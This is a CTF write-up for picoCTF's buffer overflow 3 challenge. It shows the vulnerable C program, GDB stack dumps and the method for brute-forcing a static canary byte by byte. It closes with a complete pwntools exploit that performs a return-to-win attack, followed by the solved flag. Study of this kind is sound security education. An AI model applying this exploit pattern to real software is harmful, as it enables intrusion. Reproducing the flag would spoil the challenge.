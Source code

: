 ```yaml
---
layout: writeup
category: picoCTF
chall_description: https://i.imgur.com/q8bFFdo.png
points: 300
solves: 1254
tags: pwn buffer-overflow stack-canary ret-to-win byte-by-byte
date: 1337-01-01
comments: false
---
```


Do you think you can bypass the protection and get the flag?  
It looks like Dr. Oswal added a stack canary to this [program](https://github.com/Nightxade/ctf-writeups/tree/master/assets/CTFs/picoCTF/bo3-vuln) to protect against buffer overflows. You can view [source](https://github.com/Nightxade/ctf-writeups/tree/master/assets/CTFs/picoCTF/bo3-vuln.c) here. And connect with it using:  
`nc saturn.picoctf.net [port #]`  

---

We're given an ELF binary and a C source file. Here's the C source:  

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64
#define CANARY_SIZE 4

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    fflush(stdout);
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
  puts(buf);
  fflush(stdout);
}

char global_canary[CANARY_SIZE];
void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'canary.txt' in this directory with your",
                    "own debugging canary.\n");
    fflush(stdout);
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
  fclose(f);
}

void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n"); // crash immediately
      fflush(stdout);
      exit(0);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  read_canary();
  vuln();
  return 0;
}
```

Firstly, it's immediately clear this is a classic return-to-win challenge that requires us to override the return register with the address of the win function, as evidenced by the `win()` function that is never called in the normal program execution.  

Secondly, it seems that it's added a stack canary to the stack. For those who don't know, a stack canary is a random value set on a stack whose value is checked to ensure that a buffer overflow did not occur. Without knowledge of the canary, an attacker's buffer overflow would change the stack canary and trigger a `Stack Smashing Detected` warning.  

However, while stack canaries are pretty intimidating, this one isn't as intimidating. Why? Because stack canaries are typically randomly generated every time a program is executed. This one, however, is not randomly generated. Instead, it is read from `canary.txt` every single time, meaning that it stays the same between program executions.  

Initially, I thought I could brute force the stack canary. However, a quick calculation shows that it isn't possible.  
A stack canary of 4 bytes will have `256^4` possible values, i.e. `2^32`, which is equivalent to over a billion possible values -- not very brute forceable.  

Fortunately, there's a clever trick we can use to reduce the number of iterations we have to make from `2^32` to just `4 * 2^8`.  
To demonstrate this, I'll show with an example instead.  

Through dynamic analysis, we can first locate the offset of both the input and the canary on the stack.  

First, I created a `flag.txt` file filled with a fake flag and a `canary.txt` file filled with `1111` for local testing purposes.  
Then, I entered into GDB for `vuln` and set a breakpoint at `*vuln+0x192`, i.e. right after our input.  
For my input, I entered `4` for the number of bytes to input and `aaaa` for my input, just so I could find where my string was in the stack.  
With `x/100x $esp`, I quickly found both the location of both the input and the canary:  

<pre>
0xffce6cf0:     0x0804c000      0x0804c000      <b>0x61616161</b>      0x00000000
0xffce6d00:     0xffce6d48      0xf7f9eff4      0x00000001      0x0804c000
0xffce6d10:     0xffce6e34      0xf7fc2b80      0xffce6d48      0x08049480
0xffce6d20:     0x093151a0      0x00000001      0x00000004      0x093151a0
0xffce6d30:     0x00002710      0x0804c000      <b>0x31313131</b>      0x00000001
</pre>

We can clearly observe that there is an offset of 0x40 bytes between them. Therefore, to overwrite the canary, we simply need add an offset of 0x40 bytes before our canary-guess input.  

But, as we discussed before, it would be extremely inefficient to brute force the canary as is.  
Fortunately, we don't actually need to brute force all 4 bytes of the canary at the same time.  

Let's say I change my input to 0x41 `a`'s. Then, the stack will look like this:  

<pre>
0xfff4feb0:     0x0804c000      0x0804c000      0x61616161      0x61616161
0xfff4fec0:     0x61616161      0x61616161      0x61616161      0x61616161
0xfff4fed0:     0x61616161      0x61616161      0x61616161      0x61616161
0xfff4fee0:     0x61616161      0x61616161      0x61616161      0x61616161
0xfff4fef0:     0x61616161      0x61616161      0x313131<b>61</b>      0x00000002
</pre>

Take a look at the bytes storing the canary -- only the last byte (technically the first byte since little endianness) was changed!  

So, what if we test each byte of the canary at a time, starting with the first byte. Changing only the first byte, we can just continuously test if the program outputs `Stack Smashing Detected` or not. Once it doesn't we know that we have found the correct byte. The reason for this is, since we're only changing the first byte, everything else remains the same, and therefore the stack canary will still be correct as long as the first byte is correct!  

Once we find the first byte, we can move onto the second byte, simply remembering to append the found first byte to the end of the payload to keep that byte of the stack canary right. We can do this repeatedly to find all 4 bytes of the stack canary.  

This program vulnerability demonstrates the weakness of static stack canaries. In fact, our simple solution here is enough to brute force a static/unchanging stack canary of any reasonable length of bytes!  

That's why current stack canaries are randomized for each program execution to ensure that attackers cannot just brute force it like this.  

For this problem though, now that we know how to brute force the stack canary, all that's left to do is locate the `eip` (return address pointer) on the stack and overwrite it with the `win()` function's address so that, when the `vuln()` function returns, it will return to the `win()` function instead and give us the flag!  

A simple GDB command of `i f` gives us where the value of `eip` is stored. A simple subtraction of the canary address from this address provides us the necessary offset to provide after the canary to overwrite the `eip`. All that's left now is to write an exploit program with *pwntools* to brute force the canary and return-to-win to get the flag!  

```py
from pwn import *

port = 58360

canary = b''
for i in range(4):
        payload = b'a' * 64 + canary
        for j in range(256):
                send = payload + j.to_bytes(1, 'big')
                conn = remote('saturn.picoctf.net', port)
                conn.recv()
                conn.sendline(str(65 + i).encode()) # num bytes to send
                conn.recv()
                conn.sendline(send) # payload
                result = conn.recv()
                conn.close()
                if b'Smashing' not in result:
                        canary += j.to_bytes(1, 'big')
                        print(canary)
                        break

conn = remote('saturn.picoctf.net', port)
winpayload = b'a' * 64 + canary + b'a' * 0x10 + p32(0x08049336)
print(conn.recv())
conn.sendline(str(len(winpayload)).encode())
print(str(len(winpayload)).encode())
print(winpayload)
print(conn.recv())
conn.sendline(winpayload)
print(conn.recv())
print(conn.recv())
```

The canary turns out to be `BiRd` and the flag turns out to be:  

    picoCTF{Stat1C_c4n4r13s_4R3_b4D_14b7d39c}
